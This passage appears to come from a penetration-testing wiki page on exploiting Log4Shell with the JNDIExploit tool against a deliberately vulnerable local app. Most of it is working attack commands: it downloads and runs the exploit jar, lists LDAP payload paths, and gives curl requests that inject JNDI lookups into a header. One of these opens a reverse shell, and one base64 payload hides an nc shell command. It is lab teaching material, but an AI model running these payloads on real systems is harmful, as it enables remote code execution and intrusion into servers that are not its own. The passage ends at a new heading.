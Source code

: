 ```
> Note that for some reason the author removed this project from github after the discovery of log4shell. You can find a cached version in [[https://web.archive.org/web/20211210224333/https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2|https://web.archive.org/web/20211210224333/https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2]] but if you want to respect the decision of the author use a different method to exploit this vuln.
>
> Moreover, you cannot find the source code in wayback machine, so either analyse the source code, or execute the jar knowing that you don't know what you are executing.

For this example you can just run this **vulnerable web server to log4shell** in port 8080: [[https://github.com/christophetd/log4shell-vulnerable-app) (_in the README you will find how to run it_|https://github.com/christophetd/log4shell-vulnerable-app]]. This vulnerable app is logging with a vulnerable version of log4shell the content of the HTTP request header _X-Api-Version_.

Then, you can download the **JNDIExploit** jar file and execute it with:

```bash
wget https://web.archive.org/web/20211210224333/https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 172.17.0.1 -p 8888 # Use your private IP address and a port where the victim will be able to access
```
```
After reading the code just a couple of minutes, in _com.feihong.ldap.LdapServer_ and _com.feihong.ldap.HTTPServer_ you can see how the **LDAP and HTTP servers are created**. The LDAP server will understand what payload need to be served and will redirect the victim to the HTTP server, which will serve the exploit.\
In _com.feihong.ldap.gadgets_ you can find **some specific gadgets** that can be used to excute the desired action (potentially execute arbitrary code). And in _com.feihong.ldap.template_ you can see the different template classes that will **generate the exploits**.

You can see all the available exploits with **`java -jar JNDIExploit-1.2-SNAPSHOT.jar -u`**. Some useful ones are:

```bash
ldap://null:1389/Basic/Dnslog/[domain]
ldap://null:1389/Basic/Command/Base64/[base64_encoded_cmd]
ldap://null:1389/Basic/ReverseShell/[ip]/[port]
# But there are a lot more
```
```
So, in our example, we already have that docker vulnerable app running. To attack it:

```bash
# Create a file inside of th vulnerable host:
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.17.0.1:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'

# Get a reverse shell (only unix)
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.17.0.1:1389/Basic/ReverseShell/172.17.0.1/4444}'
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.17.0.1:1389/Basic/Command/Base64/bmMgMTcyLjE3LjAuMSA0NDQ0IC1lIC9iaW4vc2gK}'
```
```
When sending the attacks you will see some output in the terminal where you executed **JNDIExploit-1.2-SNAPSHOT.jar**.

**Remember to check `java -jar JNDIExploit-1.2-SNAPSHOT.jar -u` for other exploitation options. Moreover, in case you need it, you can change the port of the LDAP and HTTP servers.**

### RCE - JNDI-Exploit-Kit 

```